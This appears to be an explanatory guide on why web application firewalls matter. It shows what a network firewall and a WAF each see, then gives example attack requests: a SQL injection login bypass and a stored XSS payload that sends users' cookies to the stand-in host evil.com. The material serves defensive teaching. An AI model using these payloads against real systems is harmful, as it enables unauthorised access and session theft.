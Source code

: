### Why Application-Layer Protection is Critical

#### The HTTP/HTTPS Challenge

**What Network Firewalls See**:
```
Network Packet:
Source: 203.0.113.1:45678
Destination: Your-Server:443
Protocol: HTTPS
Content: [Encrypted - Cannot Inspect]

Decision: Allow (looks like normal web traffic)
```

**What WAF Sees**:
```
HTTP Request After SSL Termination:
POST /login HTTP/1.1
Host: yourapp.com
Content-Type: application/x-www-form-urlencoded

username=admin&password=' OR '1'='1' --

Decision: Block (SQL injection detected in password field)
```

#### Real-World Attack Examples

**SQL Injection Attack**:
```
Normal Login Request:
POST /login
username=john&password=mypassword

Malicious Request:
POST /login  
username=admin&password=' OR '1'='1' --

What Happens Without WAF:
- Request reaches database
- SQL query: SELECT * FROM users WHERE username='admin' AND password='' OR '1'='1' --'
- '1'='1' is always true, so query returns all users
- Attacker gains admin access

What Happens With WAF:
- WAF detects SQL injection pattern
- Request blocked before reaching application
- Attack logged for analysis
- Legitimate users unaffected
```

**Cross-Site Scripting (XSS) Attack**:
```
Normal Comment Submission:
POST /comments
content=Great article, thanks for sharing!

Malicious Request:
POST /comments
content=<script>document.location='http://evil.com/steal?cookie='+document.cookie</script>

What Happens Without WAF:
- Malicious script stored in database
- When other users view comments, script executes
- User cookies sent to attacker's server
```